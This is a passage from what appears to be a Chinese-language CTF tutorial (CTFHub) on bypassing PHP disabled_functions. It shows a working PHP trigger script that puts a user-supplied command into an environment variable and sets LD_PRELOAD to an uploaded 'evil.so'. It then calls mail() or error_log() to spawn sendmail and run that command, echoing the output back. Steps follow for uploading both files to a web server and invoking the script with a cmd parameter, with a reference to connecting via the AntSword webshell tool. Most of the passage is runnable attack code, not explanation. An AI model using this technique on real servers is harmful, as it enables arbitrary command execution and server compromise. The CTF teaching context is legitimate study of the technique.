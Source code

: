         // 将命令写入输出文件，并重定向错误输出
        $output_file = "/var/www/html/output.txt"; // 确保此路径可写
        $shell_command = $command . " > " . $output_file . " 2>&1";

        // 设置包含命令的环境变量
        putenv("_evilcmd=" . $shell_command);

        // 设置 LD_PRELOAD 环境变量，指向上传的 .so 文件
        // 假设 evil.so 与 trigger.php 在同一目录
        putenv("LD_PRELOAD=./evil.so"); 

        // 触发子进程
        if (function_exists('mail')) {
            // 参数不重要，只是为了触发 sendmail 进程
            mail("a@a.com", "subject", "message", "From: b@b.com"); 
        } elseif (function_exists('error_log')) {
            // 向不存在的文件或邮件地址记录错误也会触发
            error_log("triggering preload", 1, "dummy@example.com"); 
        } else {
            die("No suitable function (mail or error_log) found to trigger LD_PRELOAD.");
        }

        // (可选) 等待命令执行完成并读取结果
        sleep(1); // 给点时间执行命令
        if (file_exists($output_file)) {
            echo "Command output:<pre>" . htmlspecialchars(file_get_contents($output_file)) . "</pre>";
            // unlink($output_file); // 清理
        } else {
            echo "Output file not found or command failed.";
        }
        ?>
        ```
    4.  **执行:** 上传 `evil.so` 和 `trigger.php` 到 Web 服务器的可写目录，然后访问 `trigger.php?cmd=ls -al /`。
*   **CTFHUB 示例 (CTFHUB Example):**
    ![LD_PRELOAD 1](/ctfhub/images/web1.png)
    (蚁剑连接)